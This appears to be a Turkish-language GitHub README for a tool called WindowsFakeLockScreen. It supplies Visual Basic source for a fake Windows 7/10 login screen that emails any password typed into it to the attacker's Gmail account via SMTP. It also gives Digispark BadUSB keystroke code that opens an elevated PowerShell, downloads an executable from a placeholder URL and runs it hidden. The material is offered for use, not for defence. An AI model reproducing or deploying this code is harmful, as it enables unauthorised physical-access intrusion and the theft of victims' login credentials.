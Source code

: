 # WindowsFakeLockScreen

<strong>WIN7 OR WIN10 FAKE LOCK SCREEN MAIL SENDING</strong>

<img src="https://i.hizliresim.com/Ii5hUx.png">

<img src="https://i.hizliresim.com/COYKEc.png">

Üst kısımdaki resimden de anlayacağınız Windows 7 ve Windows 10 için sahte bir login ekranıdır.
Programı visual basic ile oluşturdum.
Mantık programda textbox kısmına girilen herhangi bir yazıyı belirlediğimiz mail adresine göndermektir.
Bu programı BadUSB ile birlikte kullanmak amaçlı oluşturdum ve BadUSB olarak Digispark kullandım.

<li>Amaç:</li>
<li>BadUSB yani Digispark bilgisayara takılır</li></li>
<li>Belirli kodlar çalışır</li>
<li>sahte login ekranı oluşur</li>
<li>Son olarak girilen şifre belirlediğimiz mail adresine gönderilir</li>



Digispark ile ilgli bilgiye ulaşmak için: https://digistump.com/wiki/digispark bu adrese bakın

Sahte görüntü tamamen bir görseldir sadece TextBox ve Button olan kısım eklenmiştir butonun daha gerçekçi gözükmesi için PictureBox olarak ayarladım.

Programı Visual Studio 2013 Ultimate kullanarak hazırladım

<strong>Full tutorial</strong>

<url>https://www.youtube.com/watch?v=O_5SceJYqDQ&lc=z23jgtoovuykifat4acdp43apwbd1bzpcc40lscxx1tw03c010c</url>



<strong>PROGRAMIN KAYNAK KODU</strong>

<blockquote>
<p><strong>NOT:</strong></p>
<p>Kaynak kodlar içerisindeki belirttiğim kısımları kendinize göre doldurun sizden sadece mail adresi ve şifresi istenmekte</p>
</blockquote>

<pre><code>Imports System.Net.Mail
Public Class Form1

    Private Sub Form1_Load(sender As System.Object, e As System.EventArgs) Handles MyBase.Load

    End Sub

    Private Sub PictureBox3_Click(sender As System.Object, e As System.EventArgs) Handles PictureBox3.Click
        Dim MyMailMessage As New MailMessage()

            Try
                MyMailMessage.From = New MailAddress("mailadress@gmail.com")
                MyMailMessage.To.Add("mailadress@gmail.com")
                MyMailMessage.Subject = TextBox1.Text
                MyMailMessage.Body = TextBox2.Text
                Dim SMTP As New SmtpClient("smtp.gmail.com")
                SMTP.Port = 587
                SMTP.EnableSsl = True
                SMTP.Credentials = New System.Net.NetworkCredential("mailadress@gmail.com", "PAROLA")
                SMTP.Send(MyMailMessage)
                TextBox2.Text = ""
                Dim frm As New Form1
                frm.Show()

                Me.Close()
            Catch ex As Exception
            End Try
    End Sub

    Private Sub TextBox1_KeyDown(sender As Object, e As KeyEventArgs) Handles TextBox1.KeyDown
        If e.KeyCode = Keys.Enter Then
            Dim MyMailMessage As New MailMessage()
            MyMailMessage.From = New MailAddress("mailadress@gmail.com")
            MyMailMessage.To.Add("MAILADRESI@gmail.com")
            MyMailMessage.Subject = TextBox1.Text
            MyMailMessage.Body = TextBox2.Text
            Dim SMTP As New SmtpClient("smtp.gmail.com")
            SMTP.Port = 587
            SMTP.EnableSsl = True
            SMTP.Credentials = New System.Net.NetworkCredential("mailadress@gmail.com", "POROLA")
            SMTP.Send(MyMailMessage)
            TextBox2.Text = ""
            Dim frm As New Form1
            frm.Show()

            Me.Close()

        End If
    End Sub

    Private Sub TextBox1_TextChanged(sender As Object, e As EventArgs) Handles TextBox1.TextChanged


    End Sub

End Class
</code></pre>

Kaynak kodlardan da görebileceğiniz gibi oldukça basit bir kodlamadır.
Aynı kodları kullanarak win7 ve win10 görseli hazırladım
Kodları ikinci defa yazmamın sebebi girilen texti hem enter tuşuna bastığında hem de ekrandaki ok işaretine bastığı zaman belirlediğimiz mail adresine göndermesi içindir.

<strong>Digispark kodları</strong>

<code><pre>#define kbd_tr_tr
#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  //coder sefaoruc
  //youtube youtube.com/siberdunya
  //bu kodlar win10 için sahte bir login sayfası oluşturur
  //fake lock screen win10
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.print(F("powershell Start-Process powershell -Verb runAs"));
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT ,KEY_Y);
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print(F("Invoke-WebRequest -Uri ('DOWNLOAD_URL') -O C:/fakelock.exe"));
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("powershell -windowstyle hidden 'C:/fakelock.exe'");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*son*/
  }
}
</code></pre>

Digispark kodlarını da bu şekilde oluşturdum

Mantık Powershell admin olarak başlatmak ve upload ettiğimiz win7 veya win10 exe dosyasını indirip çalıştırmaktır.


